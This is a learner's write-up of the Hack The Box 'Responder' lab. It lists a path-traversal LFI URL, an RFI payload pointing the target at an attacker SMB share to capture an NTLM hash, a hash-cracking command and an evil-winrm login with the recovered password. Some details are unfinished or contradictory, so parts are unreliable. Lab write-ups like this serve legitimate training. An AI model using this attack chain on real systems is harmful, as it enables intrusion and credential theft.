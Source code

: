 # Responder

[Walkthrough](blob:https://app.hackthebox.com/6c57557b-1c6e-4f28-bf71-043c80da2ea9)
[Solution - CryptoCat](https://www.youtube.com/watch?v=R8GOLiKIA1k)

Goal: Exploiting File Inclusion vulnerability on a webpage served on a windows 
machine

## Concepts Learned

- A name-base virtual hosting is
- Local File Inclusion (LFI) occurs when the attacker access a file that was 
  not intended to be an option
- Remote File Inclusion (RFI) occurs when an attacker load a remote file using 
  protocols like HTTP, FTP, ...
- NTLM is a type of single sign-on (SSO) 


**Programs**

- `jack the ripper`: 
- `Responder`: listen to events and catch SMB files
- `evil-winrm`: windows remote management tool that emulates Powershell


**Commands**

```
nmap -sC -sV 10.129.76.106
nmap -p- --min-rate 5000 -sV 10.129.76.106
echo "10.129..91 unika.htb " | sudo tee -a /etc/hosts

http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
http://unika.htb/?page=//10.10.14.25/somefile

john -w=/usr/share/wordlists/rockyou.txt hash.txt
evil-winrm -i 10.129.91.164 -u adminstrator -p badminton

```

**Debug**

- When using the Responder, we ran into `Error starting TCP server on port 445, check permissions or other servers running` for port 139 and 145. This means that 
  these ports are already being used by two other protocols: 139 by NetBIOS and 
  445 by SMB. If we try to change `HTTP=On` to `Off` like mentionned in the 
  walkthrough, we still get the same error. If we change `SMB=On` to `Off`, 
  we won't get the error, but we won't get the event listener response
- `john the ripper`: `No password hashes loaded (see FAQ)`


**Recap**

1. We test out nmap, but we don't see any open port, so we use the `-p-` flag 
   to scan all ports form 0-65535
2. From the nmap, we see that the open port uses `http` as a service. However, 
   our browser can't find this IP address because it uses a `name-based Virtual Hosting`. We need to add it to the hosts inside `/etc/hosts`
3. Since we have access to `french.html`, we know that this file is located 
   somewhere in the server. We try to access to server hosts file by 
   targeting the path (we performed LFI)
4. Since we were able to access the hosts file, we know that (1) the website 
   is vulnerable to LFI and (2) is being served on windows machine. We then run 
   url2 and listen to event. We obtain the password hash (didn't work)
5. We then crack the password hash using `john the ripper` (didn't work)
6. We use `evil-winrm` to connect to window powershell using credentials (worked)
7. we can get the flag inside `flag.txt`


